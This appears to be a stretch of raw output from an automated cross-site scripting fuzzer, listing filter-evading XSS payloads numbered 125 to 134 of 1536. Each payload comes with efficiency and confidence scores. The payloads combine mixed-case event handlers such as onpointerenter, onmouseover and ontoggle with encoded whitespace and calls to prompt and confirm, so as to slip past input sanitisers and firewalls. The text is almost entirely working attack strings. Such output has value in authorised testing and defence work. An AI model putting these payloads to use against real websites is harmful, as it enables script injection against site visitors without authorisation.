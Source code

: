 ------------------------------------------------------------
 Payload: <a%0dONPoiNTEREnTeR%09=%09a=prompt,a()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 125/1536
 
------------------------------------------------------------
 Payload: <d3V%0dONPOIntEREnTEr+=+[8].find(confirm)%0dx//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 126/1536
 
------------------------------------------------------------
 Payload: <hTML/+/onmOUsEOvEr%0d=%0d(prompt)``// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 127/1536
 
------------------------------------------------------------
 Payload: <a/+/oNPoINtEreNTeR+=+(confirm)()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 128/1536
 
------------------------------------------------------------
 Payload: <HTmL%09OnmOusEoveR%0d=%0d[8].find(confirm)// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 129/1536
 
------------------------------------------------------------
 Payload: <detAILS%0dontoGgLe%09=%09a=prompt,a()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 130/1536
 
------------------------------------------------------------
 Payload: <HtML%09ONpOInTEReNTEr%0a=%0aa=prompt,a()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 131/1536
 
------------------------------------------------------------
 Payload: <d3V/+/ONPoinTErEnTER%0a=%0aa=prompt,a()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 132/1536
 
 Progress: 133/1536
 
------------------------------------------------------------
 Payload: <A%09OnMouSeoVER+=+confirm()%0dx//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 134/1536
 
